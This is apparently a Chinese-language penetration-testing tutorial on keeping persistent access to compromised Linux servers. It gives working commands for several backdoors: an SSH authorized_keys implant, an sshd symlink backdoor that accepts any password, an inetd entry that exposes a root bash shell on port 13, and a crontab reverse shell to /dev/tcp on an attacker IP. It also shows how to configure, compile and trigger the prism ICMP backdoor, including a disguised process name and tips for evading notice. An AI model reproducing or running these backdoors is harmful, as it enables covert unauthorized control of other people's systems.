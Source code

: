 ```yaml
---
title: Linux权限维持
index: true
isOriginal : true
date: 2023-09-01
order: 1
category:
  - 渗透测试
tag:
  - 渗透测试
  - Linux权限维持
---
```


## ssh公钥免密后门

### 公钥私钥原理概述

公钥和私钥同时生成，**公钥用于加密，私钥用于解密**。公钥可以有很多人持有，但是私钥只能自己持有，在ssh服务中，将客户端生成的ssh公钥写到目标服务器的 ~/.ssh/authorized keys中,之后客户端利用私钥完成认证即可登录 <span data-type="text" style="color: var(--b3-font-color8);">该后门比较容易被发现(查看/root/.ssh/有几个公钥)。</span>

★ ssh连接，对方开启ssh需要对方密码才可登录，但如果写入公钥，不用密码就可以登录。

### ssh公钥免密实现步骤

生成公钥/私钥对——>  公钥复制到目标机中——>  更改authorized_keys的权限为 600  ——>  登录目标机

1. 在攻击机上生成公钥/私钥对   在中途会让输入密钥对的密码，由于需要实现免密登录，<span data-type="text" style="color: var(--b3-font-color8);">所以3次回车跳过即可</span>

    ```python
    ssh-keygen -t rsa
    ```

    ​![image](assets/image-20241031142229-wn8tc7z.png)​
2. 将攻击机 .ssh 目录下的 id_rsa.pub 复制到目标服务器的 /root/.ssh/authorized keys 文件里

    ```python
    scp ~/.ssh/id_rsa.pub root@192.168.72.56:/root/.ssh/authorized_keys 
    ```

    ​![image](assets/image-20241031142615-x27vhc3.png)​
3. 在目标服务器中，将authorized keys的权限改为600

    ​![image](assets/image-20241031142905-pkhvghv.png)​
4. 尝试是否可以不使用密码就登录到目标服务器

    ​![image](assets/image-20241031143100-72e611w.png)​

## ssh软连接后门

### ssh软连接后门原理

sshd服务<span data-type="text" style="color: var(--b3-font-color8);">启用PAM认证机制</span>，在/etc/ssh/sshd\_config文件中，设置UsePAM 为yes。如果不启用PAM，系统严格验证用户密码，不能建立后门。

在/etc/pam.d/目录下，对应文件里包含"auth sufficient pam\_rootok.so"配置，<span data-type="text" style="color: var(--b3-font-color8);">只要PAM配置文件中包含此配置即可SSH任意密码登录</span>。

对比一下/etc/pam.d/sshd配置文件和/etc/pam.d/su配置文件，不难发现，前者没有包含如上配置，而后者包含该配置。

直接启动/usr/sbin/sshd,默认使用/etc/pam.d/sshd的pam配置文件，因而不能建立任意密码登录的后门。

而通过软链接的方式，实质上PAM认证是通过软链接的文件名（如：/tmp/su,/home/su），在/etc/pam.d/目录下寻找对应的PAM配置文件(如：/etc/pam.d/su)。

### ssh软连接后门制作

1. 创建软连接  设置监听端口号

    因为本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口进行伪装。

    ```python
    ln -sf /usr/sbin/sshd /tmp/su 
    /tmp/su -oPort=8888
    ```

    ​![image](assets/image-20241031154509-wyl56k4.png)​
2. 尝试使用ssh连接目标服务器，使用<span data-type="text" style="color: var(--b3-font-color8);">任意密码</span>都可以登录 。

    ```python
    ssh root@192.168.72.56 -p 8080
    ```

    ​![image](assets/image-20241031154313-cyj5o3l.png)​

## inetd/xinetd 后门

监听外部网络请求(socket)的系统守护进程，当 inetd 接收到一个外部请求后,会根据这个请求到自己的配置文件中去找到实际处理它的程序再把接收到的socket交给那个程序处理

<span data-type="text" style="color: var(--b3-font-color8);">inetd，也叫作“超级服务器”，就是监视一些网络请求的守护进程，其根据网络请求来调用相应的服务进程来处理连接请求。</span>

inetd.conf则是inetd的配置文件。inetd.conf文件告诉inetd监听哪些网络端口，为每个端口启动哪个服务。

位置是/etc/inetd.conf 配置格式

```python
 [service_name] [sock_type] [proto] [flags] [user] [server_path] [args]
#[服务名称][协议(tcp或udp)] [标 志(wait或 nowait)][属主][真实服务程序全路径][真实服务程序名称及参数]
```

1. inetd.conf配置  如果配置打开没有，就说明没有这服务，没有就不能使用，也不能在对方机子下载。

    ```python
    vi /etc/inetd.conf
    daytime stream tcp nowait root /bin/bash bash -i   #插入此行
    ```

    ​![image](assets/image-20241031162020-j50ymxj.png)​

2. 启动服务​![image](assets/image-20241031163049-z5upwdy.png)​
3. 在攻击机直接访问进入root    <span data-type="text" style="color: var(--b3-font-color8);">端口默认为13</span>

    ```python
    nc targetIP 13 
    ```

    ![image](assets/image-20241031163023-kt3z806.png)​

## Crontab 计划任务后门

Crontab 命令被用来提交和管理用户的需要周期性执行的任务,与windows下的计划任务类似

当安装完成操作系统后，默认会安装此服务工具,并且会自动启动 crond 进程，<span data-type="text" style="color: var(--b3-font-color8);">crond 进程每分钟会定期检查是否有要执行的任务</span>，如果有要执行的任务，则自动执行该任务.

相关命令

```python
crontab [-u user]-e      # 编辑某个用户的crontab文件内容 
crontab [-u user]-|      # 显示某个用户的crontab文件内容 
crontab [-u user]-[i]r   #从/var/spool/cron目录中删除某个用户的crontab文件,-i参数指定在删除用 户的crontab文件时是否有确认提示
```

1. 在目标机中设置计划任务   设置每分钟进行一次端口反弹

    ```python
    crontab -e

    */1 * * * * bash -i >& /dev/tcp/192.168.152.213/6666 0>&1
    ```

    ​![image](assets/image-20241031151955-a4qx1nu.png)​
2. 在攻击机中进行监听

    ​![image](assets/image-20241031152026-2xpmy6x.png)​

    ## prism后门

  项目地址 : [https://github.com/andreafabrizi/prism](https://github.com/andreafabrizi/prism)

   是Linux下的ICMP反弹后门工具，使用时将会在<span data-type="text" style="color: var(--b3-font-color8);">后台等待特定的主机/端口连接信息的ICMP数据包</span>  主动监听连接

1. 克隆到攻击机
2. 配置prism.c文件，修改宏定义部分

    ```python
    40 #ifdef STATIC
    41 # define REVERSE_HOST     "10.0.0.1"  //连接到主控机的IP地址
    42 # define REVERSE_PORT     19832   //连接到主控机的端口号
    43 # define RESPAWN_DELAY    15  //后门机尝试连接的空闲时间间隔
    44 #else
    45 # define ICMP_PACKET_SIZE 1024  //ICMP数据包的大小
    46 # define ICMP_KEY         "linger"  //连接的密码
    47 #endif
    48
    49 #define VERSION          "0.5"   //版本信息
    50 #define MOTD             "PRISM v"VERSION" started\n\n# "  //后门机连接时显示的消息
    51 #define SHELL            "/bin/sh"  //shell执行的位置
    52 #define PROCESS_NAME     "udevd"   //创建的进程名称
    ```

    ​![image](assets/image-20241031175330-x20v5fg.png)​
3. 编译 prism.c 文件  <span data-type="text" style="color: var(--b3-font-color8);"> 为了防止环境问题，可以上传到靶机再编译。</span>

    ```python
    gcc -DDETACH -Wall -s -o prism prism.c
    ```

    ​![image](assets/image-20241031164048-mszbixj.png)​
4. 编译完成后，可以查看 prism后门的配置信息

    ```python
    ./prism Inf0    # I大写  0
    ```

    ​![image](assets/image-20241031164233-944f79q.png)​
5. ```python
    scp 【本地要上传文件地址】  [用户名]@[ip地址]：远程地址
    ```

    ​![image](assets/image-20241031165331-ehigiv6.png)​
6. 上传到靶机之后--需要启动才能成功

    ```python
    ./prism
    ```

7. 在攻击机使用sendPacket.py脚本发送包到后门主机激活，本地监听相关端口等待后门主机反弹连接

    ```python
    nc -lvvp 19832    #监听的端口要和prism里配置的一致  
    python2 ./sendPacket.py 192.168.72.56 p4ssw0rd 192.168.72.36 19832    # 被攻击IP地址 连接密码 攻击者IP地址 回连端口
    ```

​![image](assets/image-20241031183210-yyk386b.png)​

注意：

1. 被攻击端需要启动后门  ./prism  才能成功
2. 最后一步先监听再发送请求包

‍
